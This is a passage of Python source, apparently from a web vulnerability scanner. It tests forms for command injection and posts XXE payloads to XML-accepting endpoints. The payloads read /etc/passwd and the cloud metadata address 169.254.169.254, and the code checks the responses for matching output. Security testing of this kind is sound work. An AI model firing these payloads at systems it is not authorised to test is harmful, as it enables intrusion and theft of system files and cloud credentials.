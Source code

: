 ```python
                for input_field in form['inputs']:
                    if input_field['name']:
                        form_data[input_field['name']] = payload
                
                try:
                    if form['method'] == 'POST':
                        response = self.session.post(form_action, data=form_data, timeout=15)
                    else:
                        response = self.session.get(form_action, params=form_data, timeout=15)
                    
                    # Check for command execution indicators
                    cmd_indicators = [
                        'root:', 'uid=', 'gid=', 'command_injection_test',
                        'PING 127.0.0.1', 'Windows IP Configuration'
                    ]
                    
                    for indicator in cmd_indicators:
                        if indicator in response.text:
                            vuln_info = f"Command injection in form at {form_action}"
                            self.vulnerabilities.append(vuln_info)
                            print(f"  [!] {vuln_info}")
                            break
                            
                except requests.RequestException:
                    continue
        
        print(f"  Tested command injection vulnerabilities")
    
    def test_xxe_vulnerabilities(self):
        """Test for XML External Entity (XXE) vulnerabilities"""
        print("\n[+] Testing XXE vulnerabilities...")
        
        # XXE payloads
        xxe_payloads = [
            """<?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
            <root><data>&xxe;</data></root>""",
            
            """<?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>
            <root><data>&xxe;</data></root>""",
            
            f"""<?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE foo [<!ENTITY xxe SYSTEM "{self.test_site}">]>
            <root><data>&xxe;</data></root>"""
        ]
        
        # Test endpoints that might accept XML
        xml_endpoints = [endpoint for endpoint in self.endpoints 
                        if any(keyword in endpoint.lower() 
                              for keyword in ['api', 'xml', 'soap', 'rest'])]
        
        for endpoint in xml_endpoints[:2]:  # Limit for demo
            for payload in xxe_payloads[:2]:  # Test first 2 payloads
                try:
                    headers = {'Content-Type': 'application/xml'}
                    response = self.session.post(endpoint, data=payload, 
                                               headers=headers, timeout=10)
                    
                    # Check for XXE indicators
                    if ('root:' in response.text or 
                        'ami-' in response.text or 
                        'xxe_test_success' in response.text):
```